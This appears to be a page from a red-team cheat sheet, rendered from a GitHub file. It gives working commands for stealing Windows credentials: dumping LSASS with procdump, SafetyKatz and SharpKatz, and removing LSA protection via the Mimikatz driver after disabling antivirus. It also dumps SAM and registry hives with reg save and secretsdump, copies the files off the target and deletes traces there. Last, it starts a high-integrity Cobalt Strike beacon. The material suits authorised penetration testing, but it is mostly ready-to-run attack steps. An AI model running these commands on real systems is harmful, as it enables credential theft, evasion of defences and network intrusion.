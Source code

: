 
---
### __Dump local secrets:__
##### _Extract hashes from LSASS:_
- Extract secrets via LSASS process dump:
	- 1\. Dump LSASS:
		- \([CS\-Remote\-OPs\-BOF](https://github.com/trustedsec/CS-Remote-OPs-BOF)\): `procdump <PID LSASS> C:\<location to store dump file>\dump.bin`
		- \([Safetykatz](https://github.com/GhostPack/SafetyKatz)\): `safetykatz minidump`
	- 2\. Download the ‘dump\.bin’ or ‘min\_debug\.bin’ file to your own machine
	- 3\. Extract hashes on own Linux system \([Pypykatz](https://github.com/skelsec/pypykatz)\): `pypykatz lsa minidump dump.bin -e`
- List Kerberos encryption keys \([SharpKatz](https://github.com/b4rtik/SharpKatz)\): `SharpKatz.exe --Command ekeys`
- Dump user secrets from all providers \(kerberos, credman, ekeys, etc\) \(SharpKatz\): `SharpKatz.exe --Command logonpasswords`

##### _Bypass LSA protection to dump LSASS:_
When LSA protection is enabled, the LSASS process is marked as Protected Process Light \(PPL\), meaning that you can't inject code or tamper with the process\. 
- 1\. Check if LSA protection is enabled \(can also be done via seatbelt\): `Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"`
- 2\. Upload the 'mimidrv.sys' driver \-that accompanies Mimikatz\- to the target system \(may require that you first disable AV real time protection to prefent AV flagging 'mimidrv\.sys'\)
- 3\. In the same directory as the saved 'mimidrv\.sys' driver, run Invoke\-Mimikatz to load it:
	- 1: `Invoke-Mimikatz -Command "!+"`
	- 2: ```Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`""```
- 4\. It is now possible to dump LSASS \(recommended to use SharpKatz\)
- 5\. Unload the driver after you finish:
	- 1: ```Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe`""```
	- 2: `Invoke-Mimikatz -Command "!-"`

##### _Extract hashes from SAM:_
>The system doesn't allow you to copy the SAM \(C:\\Windows\\System32\\config\\SAM\), SYSTEM \(C:\\Windows\\System32\\config\\SYSTEM\) and SECURITY \(C:\\Windows\\System32\\config\\SECURITY\) files, but let you copy its content from the registry mount location\. Furthermore, also check for stored backup files in C:\\Windows\\System32\\config\\RegBack\\<file>\.
- Manual via CMD:
	- 1\. Make a copy of the following files:
		- 1: `reg save HKLM\SYSTEM system.save`
		- 2: `reg save HKLM\SAM sam\save`
		- 3: `reg save HKLM\SECURITY security.save`
	- 2\. Download files to own machine and delete all made copies on the target system
	- 3\. Dump hashes from extarcted files \([impacket](https://github.com/SecureAuthCorp/impacket)\): `secretsdump.py -sam sam.save -system system.save -security security.save (-history) LOCAL`
- Via Mimikatz \([Mimikatz\.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)\): `Invoke-Mimikatz -Command "lsadump::sam"`


---
### __Start high integrity beacon on a system:__
##### _Cobalt Strike localhost beacon:_
This method can be used to locally start a high integrity beacon without connecting it directly to the TS\. *
- 1\. Start a new "Beacon TCP" listener and select the "localhost" box
- 2\. Create a beacon\.exe payload for the started TCP listener
- 3\. Execute the payload via whatever available privesc method\.
- 4\. Connect to the high integrity beacon from the already established mid integrity beacon \(Beacon TCP\): `connect localhost <port>`
